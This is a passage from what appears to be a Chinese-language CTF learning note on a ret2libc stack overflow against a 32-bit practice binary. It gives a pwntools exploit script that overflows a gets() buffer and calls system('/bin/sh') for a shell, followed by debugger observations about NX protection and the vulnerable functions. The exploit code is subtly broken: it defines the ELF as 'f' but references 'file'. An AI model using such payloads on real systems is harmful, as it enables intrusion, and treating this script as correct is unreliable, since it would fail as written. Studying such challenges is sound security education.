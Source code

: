 

那么exp就为：

```
from pwn import *

p = process("./ret2libc")
f = ELF("./ret2libc")
s = file.plt["system"]
b = next(file.search(b"/bin/sh"))

pay = b"A"*(0x70) + p32(s) + b"A" * (0x4) + p32(b)
p.sendline(pay)
p.interactive()
```

![image-20240314085209859](${images}/image-20240314085209859.png)

[CTFer成长日记10：动态链接的基本过程与ret2libc - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/464311858)



#### edb-debuger调试：原理测试

![image-20240422194936916](${images}/image-20240422194936916.png)

32位程序

![image-20240422195054960](${images}/image-20240422195054960.png)

有NX保护，无法堆栈执行，可栈溢出

##### Funtion Find

![image-20240422200102902](${images}/image-20240422200102902.png)

两个值得注意的函数secure函数和main

###### main 函数

![image-20240422200337557](${images}/image-20240422200337557.png)

提示后进行输入：

![image-20240422200427098](${images}/image-20240422200427098.png)

gets函数栈溢出

offset 还不清除，因为ebp未知

###### secure 函数

![image-20240422200743644](${images}/image-20240422200743644.png)

有system函数，有"/bin/sh"字符串


[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"